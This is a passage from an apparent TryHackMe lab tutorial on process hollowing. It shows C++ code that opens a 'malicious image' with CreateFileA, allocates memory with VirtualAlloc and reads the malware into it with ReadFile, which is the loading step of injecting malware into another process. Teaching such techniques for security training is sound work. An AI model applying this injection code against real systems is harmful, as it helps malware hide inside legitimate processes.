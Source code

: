 2. Open a malicious image. In step two, we need to open a malicious image to inject. This process is split into three steps, starting by using `CreateFileA` to obtain a handle for the malicious image.

```cpp
HANDLE hMaliciousCode = CreateFileA(
	(LPCSTR)"C:\\\\Users\\\\tryhackme\\\\malware.exe", // Name of image to obtain
	GENERIC_READ, // Read-only access
	FILE_SHARE_READ, // Read-only share mode
	NULL,
	OPEN_EXISTING, // Instructed to open a file or device if it exists
	NULL,
	NULL
);
```

Once a handle for the malicious image is obtained, memory must be allocated to the local process using `VirtualAlloc`. `GetFileSize` is also used to retrieve the size of the malicious image for `dwSize`

```cpp
DWORD maliciousFileSize = GetFileSize(
	hMaliciousCode, // Handle of malicious image
	0 // Returns no error
);

PVOID pMaliciousImage = VirtualAlloc(
	NULL,
	maliciousFileSize, // File size of malicious image
	0x3000, // Reserves and commits pages (MEM_RESERVE | MEM_COMMIT)
	0x04 // Enables read/write access (PAGE_READWRITE)
);
```

Now that memory is allocated to the local process, it must be written. Using the information obtained from previous steps, we can use `ReadFile` to write to local process memory.

```cpp
DWORD numberOfBytesRead; // Stores number of bytes read

if (!ReadFile(
	hMaliciousCode, // Handle of malicious image
	pMaliciousImage, // Allocated region of memory
	maliciousFileSize, // File size of malicious image
	&numberOfBytesRead, // Number of bytes read
	NULL
	)) {
	cout << "[!] Unable to read Malicious file into memory. Error: " <<GetLastError()<< endl;
	TerminateProcess(target_pi->hProcess, 0);
	return 1;
}

CloseHandle(hMaliciousCode);
```
